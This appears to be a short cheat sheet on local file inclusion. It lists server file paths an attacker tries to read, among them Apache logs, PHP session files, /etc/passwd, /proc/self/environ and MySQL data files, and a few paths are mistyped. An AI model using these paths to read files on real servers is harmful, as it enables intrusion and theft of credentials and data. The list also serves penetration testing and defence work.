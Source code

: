 ```yaml
---
layout: post
title: 'Local File Inclusion Cheat Sheet'
---
```



#### Introduction


This vulnerability lets the attacker gain access to sensitive files on the server.


### Logs


```javascript
/etc/httpd/logs/acces_log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/access_ log
/usr/local/apache/logs/access. log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/access_log
/var/log/dmessage
/var/log/mail
```

### Sessions

```javascript
/var/lib/php/sess_%SESSIONID%
/var/lib/php/session/sess_%SESSIONID%
/var/lib/php/sessions/sess_%SESSIONID%
/var/tmp/sess_%SESSIONID%
```


### Sensitive Files

```javascript
/etc/passwd
/etc/group
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
/proc/self/fd/1
```

### Database files
```javascript
/var/lib/mysql/%DATABASE_NAME%/%DATABASE_TABLE%.frm
/var/lib/mysql/mysqld/mysqld.pid
```
